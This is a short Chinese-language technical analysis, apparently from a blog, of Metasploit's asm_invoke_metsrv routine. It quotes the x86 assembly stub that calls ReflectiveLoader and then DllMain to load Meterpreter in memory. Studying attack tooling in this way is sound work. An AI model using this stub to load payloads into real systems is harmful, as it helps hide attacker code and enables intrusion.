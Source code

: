 我们看一下asm\_invoke\_metsrv函数，这个函数调用了ReflectiveLoader函数，接着定位到了stages结束的地址。

![image.png](assets/1698893687-96bc6818df856e7636ec9b1b9d456aff.png)

```c
dec ebp ; 'M'//无效代码 
pop edx ; 'Z'//无效代码 
call $+5 ; call next instruction 
pop ebx ; get the current location (+7 bytes) 
push edx ; restore edx 
inc ebp ; restore ebp 
push ebp ; save ebp for later 
mov ebp, esp ; set up a new stack frame 
; Invoke ReflectiveLoader() 
; add the offset to ReflectiveLoader() (0x????????) 

add ebx, #{"0x%.8x" % (opts[:rdi_offset] - 7)} 
call ebx ; invoke ReflectiveLoader() 
; Invoke DllMain(hInstance, DLL_METASPLOIT_ATTACH, config_ptr) 
; offset from ReflectiveLoader() to the end of the DLL 

add ebx, #{"0x%.8x" % (opts[:length] - opts[:rdi_offset])}
```
